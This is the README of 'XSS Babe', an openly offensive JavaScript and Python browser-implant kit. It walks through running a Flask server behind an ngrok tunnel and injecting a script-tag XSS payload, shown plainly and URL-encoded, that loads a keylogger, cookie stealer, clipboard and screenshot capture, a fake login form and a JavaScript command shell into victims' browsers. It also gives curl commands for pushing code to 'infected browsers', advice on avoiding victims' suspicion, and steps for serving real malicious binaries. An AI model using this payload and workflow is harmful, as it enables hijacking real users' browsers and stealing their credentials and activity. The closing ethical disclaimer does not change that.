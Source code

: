 # XSS Babe – by ekomsSavior

**XSS Babe** is a browser-based red team implant system built entirely in JavaScript and Python. It is designed for ethical cybersecurity research, browser exploitation simulation, and educational purposes. XSS Babe dynamically loads multiple payload modules into a victim's browser using a single script tag.

This tool is ideal for understanding the power of XSS-based post-exploitation, teaching students browser abuse tactics, and building real-time control panels for red team operations.

---

## Features

- Keylogger with live keystroke logging  
- JavaScript-based reverse shell command execution  
- Screenshot capture using HTML2Canvas  
- Fingerprinting (user-agent, screen resolution, timezone)  
- Browser recon and port scanning  
- Clipboard capture  
- Webcam access prompt  
- Browser history profiling  
- Password bait module with fake login form  
- Download button that serves real payloads  
- Cross-tab messaging to capture user activity across tabs  
- Dynamic auto-loader that pulls all modules from the server  
- Optional Discord webhook alerts for real-time victim beacons  
- Dashboard interface for viewing logs  

---

## Prerequisites

- Python 3  
- Pip (`pip3`)  
- A Ngrok account (free) and binary installed  
- A basic understanding of using the terminal  

---

## Installation Instructions

1. **Clone the repository**
   ```bash
   git clone https://github.com/ekomsSavior/xss_babe.git
   cd xss_babe
   ```

2. **Run the setup script**
   This installs dependencies, sets up folders, and starts the Flask server.
   ```bash
   chmod +x setup_repo.sh
   ./setup_repo.sh
   ```

---

##  Ngrok Setup Instructions (Full Walkthrough)

To run XSS Babe over the internet, you’ll need to tunnel the server using **Ngrok**.

** Step 1: Install Ngrok** — Download the binary from [https://ngrok.com/download](https://ngrok.com/download). For Kali Linux or Debian-based systems:  
```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

** Step 2: Sign Up & Get Your Auth Token** — Create a free account at [https://ngrok.com/signup](https://ngrok.com/signup), then copy your token from [https://dashboard.ngrok.com/get-started/setup](https://dashboard.ngrok.com/get-started/setup) and run:  
```bash
ngrok config add-authtoken YOUR_AUTHTOKEN_HERE
```

** Step 3: Start the Flask Server** — From your project directory, run:  
```bash
python3 server.py
```

** Step 4: Start Ngrok Tunnel** — In a new terminal window:
```bash
ngrok http 5000
```

Ngrok will give you a public URL like:
```
https://abc123.ngrok.io
```

Use this domain in all injected payloads and external links.

---

## How to Use the Payload

Once Ngrok is running and you have your public domain:

1. Inject this payload into a vulnerable XSS point:
   ```html
   <script src="https://abc123.ngrok.io/static/x.js"></script>
   ```

2. If you need it URL-encoded:
   ```
   %3Cscript%20src%3D%22https%3A%2F%2Fabc123.ngrok.io%2Fstatic%2Fx.js%22%3E%3C%2Fscript%3E
   ```

This will dynamically load all modules into the victim’s browser, including keylogger, reverse shell, recon, and more.

---

## Viewing Logs and Interacting with Victims

### Live Dashboard

Visit your dashboard from your browser to see logs in real time:
```
https://abc123.ngrok.io/
```

### Command Execution

Send JavaScript to all infected browsers:
```bash
curl -X POST https://abc123.ngrok.io/cmd -d "alert('This is a test')"
```

Example of something stealthier:
```bash
curl -X POST https://abc123.ngrok.io/cmd -d "document.body.style.background='black'"
```

The shell module fetches commands every 2 seconds and executes them silently.

---

## Maintaining Browser Access

Once a victim is hooked:

- Do not spam alert boxes — this creates suspicion  
- Use the `shell.js` module to run background JS tasks  
- Use `password_bait.js` to simulate login prompts during inactivity  
- Use `tab_messenger.js` to track movement between tabs  
- Avoid reloading the browser tab — that will clear JS execution  
- Track screenshots, clipboard, keystrokes, and tabs in real-time  
- Use Discord webhook alerts to notify you when a browser is hooked  

---

## Using Real Payloads

XSS Babe delivers **real payloads**. You may place the following in your `/payloads` folder:

- `reverse_shell.zip` – zipped payload  
- `chrome_patch.exe` – real malicious binary for simulation  
- `malware_scan_tool.apk` – Android APK for testing on phones  
- `password_list.txt` – used in bait or as decoy  

In `fake_download.js`, change the download URL to your real payload:
```js
window.location = "/payloads/reverse_shell.zip";
```

Use only in controlled environments and with full authorization.

---

## Maintaining XSS Babe

Tips and tricks for best results:

- Restart `server.py` after editing Python or JS files  
- Add or remove modules by editing `static/x.js`  
- Log files are stored in `logs/victims.txt`  
- Add your real payloads to the `/payloads` directory  
- Customize `dashboard.html` to match your engagement branding  
- Keep `.gitignore` in place to avoid pushing payloads or logs to GitHub  
- Check browser CSP headers — some sites block external scripts  
- Use Ngrok TLS (`https://`) to avoid mixed content blocking  

---

## Directory Structure

```
xss_babe/
├── server.py
├── setup_repo.sh
├── .gitignore
├── logs/
│   └── victims.txt
├── payloads/
│   ├── reverse_shell.zip
│   ├── chrome_patch.exe
│   ├── password_list.txt
│   └── malware_scan_tool.apk
├── static/
│   ├── x.js
│   ├── keylogger.js
│   ├── shell.js
│   ├── auto_cookie_steal.js
│   ├── webcam.js
│   ├── clipboard.js
│   ├── fingerprint.js
│   ├── screenshot.js
│   ├── recon.js
│   ├── history.js
│   ├── password_bait.js
│   ├── fake_download.js
│   └── tab_messenger.js
├── templates/
│   └── dashboard.html
```

---

## Ethical Statement

XSS Babe is an offensive security research tool.

It is intended only for use in:
- Your own labs  
- Authorized red team engagements  
- Security training environments  

Never deploy XSS Babe on a live system without explicit written permission. 
Misuse of this tool may be illegal.
the user assumes all risk when using this tool. 
ekomsSavior provides this tool without warranty.

---

